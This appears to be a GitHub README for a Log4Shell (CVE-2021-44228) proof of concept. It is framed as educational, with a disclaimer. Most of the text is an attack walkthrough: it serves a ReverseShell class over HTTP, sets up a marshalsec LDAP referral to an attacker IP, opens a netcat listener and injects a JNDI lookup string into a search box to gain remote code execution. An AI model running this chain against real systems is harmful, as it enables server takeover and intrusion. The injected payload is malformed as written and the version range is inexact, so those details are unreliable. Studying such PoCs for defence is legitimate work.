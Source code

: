 # Log4Shell-PoC
A Log4Shell Proof of Concept (PoC)

This repository contains a proof of concept (PoC) for the Log4Shell vulnerability (CVE-2021-44228), one of the most critical security issues of the modern internet, that affects Java Apache Log4j library through versions 2.0-2.14.0. Log4Shell allows trivial remote code execution which has generated significant attention in the security community. This PoC is provided for educational and testing purposes to help understand the vulnerability and its potential impact.

**Disclaimer:** This PoC should only be used in controlled environments for educational and defensive purposes. Unauthorized use of this PoC to exploit or cause harm is illegal and unethical.

This guide will explain how to set-up and execute a PoC, please use it responsibly.

1. Deploy the vulnerable Java application (SearchWeb) locally using your preferred technology, e.g. Apache Tomcat, Jetty, Docker image, etc.

2. Start Http server to host the ReverseShell.java that will be loaded in the vulnerable web application (SearchWeb). This can be done easily with python HTTP module as follows:
```
  python3 -m http.server 8000
```
3. Set-up and LDAP referral that will point to the Http server previosuly configured. LDAP by its own cannot serve Java files, therefore LDAP requests will be redirected to our Http server so the ReverseShell.java can be delivered successfully. In order to set this up, we can use the marshalsec utility provided at https://github.com/mbechler/marshalsec with the following command:
```
  java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndiLDAPRefServer "http://192.168.1.2:8000/#ReverseShell"
```
Thiw will redirect all incoming requests to our LDAP to the ReverseShell.class resource hosted on the Http server.

4. Set-up a netcat listener on port 443 to await the connection from the reverse shell. For this, we can use the Netcat (nc) tool:
```
  nc -lvnp 443
```
5. Delivery of the attack vector: Now if we browse to the path /SearchWeb of our vulnerable application, we will see a search box. Whatever we submit in this search box will be logged by the application, therefore, we can introduce here the attack vector:
```
  ${jndi:ldap//192.168.1.2/ReverseShell)
```
After this text is sent, we will see our LDAP server has received an incoming request that has been forwarded to the Http server, and this has served the ReverseShell.class to the vulnerable application. Having a look at our netcat listener we see the incoming TCP connection from the IP of the web application, meaning we have gained RCE on the server hosting the application.

